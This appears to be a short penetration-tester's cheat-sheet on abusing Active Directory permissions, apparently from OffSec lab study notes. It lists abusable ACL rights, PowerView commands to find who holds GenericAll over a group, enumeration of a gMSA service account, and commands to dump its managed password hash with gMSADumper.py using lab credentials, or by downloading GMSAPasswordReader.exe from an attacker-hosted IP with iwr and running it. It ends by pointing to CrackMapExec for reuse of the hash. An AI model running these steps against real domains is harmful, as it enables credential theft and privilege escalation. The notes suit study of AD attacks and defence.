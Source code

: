 #enumerations 

```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```


1. Understand the rights
```
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104(stephanie)
ActiveDirectoryRights  : ReadProperty
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553(This is the one that has ReadProperty right over stephanie)
```

2. Enumerate the other groups/Users

```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

3. If you find GMSA

- svc_apache is the member of gMSA
```powershell

Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames

```

#### To dump
🔴 The rc4_hmac hash is the same as the NT hash, they are interchangeable.
##### Linux

```bash
python gMSADumper.py -u 'enox' -p 'california' -l 192.168.248.165 -d heist.offsec 
```

##### Windows

```powershell
iwr -uri http://192.168.45.156/GMSAPasswordReader.exe  -o gmsa.exe
```

```powershell
.\gmsa.exe --accountname 'svc_apache$' 
```
 then [[CrackMapExec]]
 